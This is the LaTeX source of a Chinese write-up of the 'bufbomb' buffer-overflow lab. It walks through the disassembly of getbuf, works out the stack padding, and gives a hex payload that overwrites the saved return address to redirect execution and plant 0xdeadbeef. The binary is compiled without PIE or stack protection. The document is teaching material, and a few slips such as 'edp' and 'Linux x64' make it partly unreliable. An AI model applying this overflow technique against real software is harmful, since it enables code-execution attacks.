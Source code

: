 \documentclass[a4pper,12pt,onecolumn]{article}
\begin{document}
如以上代码所述，在 \texttt{0x80492d2}处执行完 \texttt{getbuf}，接下来是把返回值（即 \texttt{eax}）压进栈中，然后再把字符串（即 \texttt{getbuf returned \%x\\n}）地址压入栈中。因为我们可以通过 \texttt{getxs}操作整个 \texttt{getbuf}函数的栈，又因为 \texttt{test}函数调用了 \texttt{getbuf}函数————也就是 \texttt{test}在 \texttt{getbuf}逻辑意义上的上面（或者物理意义的下面），我们也可以操纵整个 \texttt{test}的栈。这样第一种利用 \texttt{printf}语句的方法就很容易得出了：跳到 \texttt{0x80492e0}，然后控制栈顶使栈顶为0xdeadbeef。

\begin{lstlisting}[style=DOS]
    08049288 <getbuf>:
    8049288:	55                   	push   ebp
    8049289:	89 e5                	mov    ebp,esp
    804928b:	83 ec 18             	sub    esp,0x18
    804928e:	e8 bb 00 00 00       	call   804934e <__x86.get_pc_thunk.ax>
    8049293:	05 6d 2d 00 00       	add    eax,0x2d6d
    8049298:	83 ec 0c             	sub    esp,0xc
    804929b:	8d 45 e8             	lea    eax,[ebp-0x18]
    804929e:	50                   	push   eax
    804929f:	e8 02 ff ff ff       	call   80491a6 <getxs>
    80492a4:	83 c4 10             	add    esp,0x10
    80492a7:	b8 01 00 00 00       	mov    eax,0x1
    80492ac:	c9                   	leave  
    80492ad:	c3                   	ret
\end{lstlisting}

显然栈抬升了0x18个Bytes（注意栈从高向低生长）。因此我们的Payload需要加上0x18个Bytes的填充。

程序为32位程序；那么Payload还需要加上0x04个Bytes来填充edp。

最后我们需要将存储的eip指针覆盖为我们想要去的地址，也就是 \texttt{0x80492e0}，并且使得覆盖完后的栈顶\footnote{基本的\href{https://www.cnblogs.com/clover-toeic/p/3755401.html}{C语言函数调用栈}知识可以看这篇文章。}为0xdeadbeef。（注意Linux x64是小端序机器）

这是一种Payload：00000000 00000000 00000000 00000000 00000000 00000000 00000000 E0920408 EFBEADDE

\subsection{solution2}

\begin{itemize}
    \item elf file:  \texttt{bufbomb}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb -g -no-pie -fno-stack-protector -O0
    \item guard: no PIE, no Canary
\end{itemize}
\end{document}
